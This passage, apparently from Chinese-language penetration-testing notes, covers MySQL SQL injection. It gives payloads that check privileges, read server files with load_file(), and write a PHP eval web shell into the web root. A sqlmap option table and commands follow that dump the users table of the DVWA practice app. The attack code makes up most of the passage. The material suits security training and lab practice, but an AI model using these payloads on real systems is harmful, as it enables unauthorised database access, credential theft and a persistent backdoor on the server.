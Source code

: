### 3.7. load_file()

#### 3.7.1. 检查权限

```sql
and (select count(*) from mysql.user)>0
```

若结果返回正常，说明具有读写权限

```sql
-- 读取文件
union select1,2,load_file('c:/temp/key.txt') --+
-- 写文件
union select 1,2,'<?php eval($_REQUEST["abc"]);?>',into outfile '/var/www/html/shell.php'  --+
```

## 4. 工具注入

#### 4.1.1. sqlmap

|参数|作用|示例|
|---|---|---|
|`--technique=B`|强制使用布尔盲注|`--technique=B`|
|`--batch`|非交互模式（自动选择默认选项）|`--batch`|
|`--dbms`|指定数据库类型（提高效率）|`--dbms=mysql`|
|`--level`|测试等级（1-5，默认1）|`--level=3`|
|`--risk`|风险等级（1-3，默认1）|`--risk=2`|
|`--threads`|并发线程数（加速检测）|`--threads=5`|
|`--dbs`|获取所有数据库名|`--dbs`|
|`-D database`|指定目标数据库|`-D testdb`|
|`--tables`|获取数据库表名|`--tables`|
|`-T table`|指定目标表|`-T users`|
|`--columns`|获取表字段名|`--columns`|
|`-C column`|指定目标字段|`-C username,password`|
|`--dump`|导出表数据|`--dump`|

```shell
# 获取数据库
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
# 获取表
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
# 获取列
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
# 获取数据
sqlmap -u "http://" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users -C user --dump
```
